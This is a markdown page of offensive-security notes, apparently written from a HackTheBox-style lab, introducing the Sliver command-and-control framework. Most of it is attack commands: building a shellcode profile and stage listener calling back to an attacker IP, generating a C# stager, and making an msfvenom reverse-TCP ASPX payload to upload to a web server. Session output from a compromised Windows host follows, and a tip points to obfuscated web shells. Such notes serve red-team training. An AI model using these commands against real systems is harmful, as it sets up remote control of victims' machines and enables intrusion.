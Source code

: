 ```yaml
---
description: A command and control (C2) server is software tasked to execute commands.
---
```


# Intro C2 Sliver

### <mark style="color:yellow;">Terminology</mark>

* **Implants**: Binaires/Executables used to preserve entry onto targat, to establish communications between attacker and compromised system.
* **Beacons**:  Is the process of the communicating from target to c2 server periodically.
* **Stagers**: Stager is a way loading code onto remote machine, used to load different code.&#x20;
* **Armory**: A library of precompiled .NET binaries that can be executed on the victim machine

### <mark style="color:yellow;">Session</mark>

Creating a new profile

```sh
profiles new --http 10.10.14.120:8888 --format shellcode zen
```

Create a stage listener

```sh
stage-listener --url tcp://10.10.14.120:4443 --profile zen
```

Start HTTP server

```sh
http -L 10.10.14.120 -l 8888
```

Generate stager

```sh
generate stager --lhost 10.10.14.120 --lport 4443 --format csharp --save staged.txt
```

Generate a msfvenom aspx payload

```sh
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.120 LPORT=4443 -f aspx > sliver.aspx
```

In the .aspx file replace the shellcode start from new byte. After uploading and opening .aspx file you get a session back.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Once getting sessions back type use and id&#x20;

```sh
# Show sessions
[server] sliver > sessions

 ID         Name            Transport   Remote Address         Hostname   Username   Operating System   Locale   Last Message                                  Health  
========== =============== =========== ====================== ========== ========== ================== ======== ============================================= =========
 0fb55977   STANDARD_GOWN   http(s)     10.129.135.124:49702   web01      <err>      windows/amd64      en-US    Tue Jan 21 12:35:56 EST 2025 (2s ago)         [ALIVE] 
 520436a4   STANDARD_GOWN   http(s)     10.129.135.124:49696   web01      <err>      windows/amd64      en-US    Tue Jan 21 12:35:56 EST 2025 (2s ago)         [ALIVE] 

# Use session
[server] sliver > use 0fb55977
[*] Active session STANDARD_GOWN (0fb55977-1d1a-49b6-a38c-3050062a3f2b)
  
# Get info 
[server] sliver (STANDARD_GOWN) > info

        Session ID: 0fb55977-1d1a-49b6-a38c-3050062a3f2b
              Name: STANDARD_GOWN
          Hostname: web01
              UUID: 8e791442-8f32-0734-2206-371cf25d6bb6
          Username: <err>
               UID: <err>
               GID: <err>
               PID: 2668
                OS: windows
           Version: Server 2016 build 17763 x86_64
            Locale: en-US
              Arch: amd64
         Active C2: https://10.10.14.120:8888
    Remote Address: 10.129.135.124:49702
         Proxy URL: 
Reconnect Interval: 1m0s
     First Contact: Tue Jan 21 12:34:21 EST 2025 (2m8s ago)
      Last Checkin: Tue Jan 21 12:36:27 EST 2025 (2s ago)
```

{% hint style="info" %}
Use [SharpyShell](https://github.com/antonioCoco/SharPyShell) to upload obfuscated web shells.
{% endhint %}

